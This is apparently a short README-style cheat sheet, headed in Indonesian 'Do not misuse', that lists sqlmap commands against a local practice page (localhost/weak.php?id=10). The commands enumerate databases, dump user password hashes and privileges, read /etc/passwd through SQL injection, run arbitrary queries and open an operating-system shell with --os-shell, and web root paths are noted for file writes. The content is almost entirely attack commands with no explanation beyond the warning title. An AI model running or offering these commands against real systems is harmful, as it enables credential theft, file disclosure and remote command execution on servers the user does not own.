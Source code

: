 <h1>Jangan Disalah Gunakan</h1>
command :
</br>
python ./sqlmap.py -u "http://localhost/weak.php?id=10" --dbs
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" -b
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --users --passwords --privileges --roles --threads=10
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --current-user --is-dba --current-db --hostname --threads=10
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --file-read=/etc/passwd --threads=10
</br>
C:\xampp\htdocs
</br>
/var/www/html/
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --sql-query="select now();"
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --os-shell
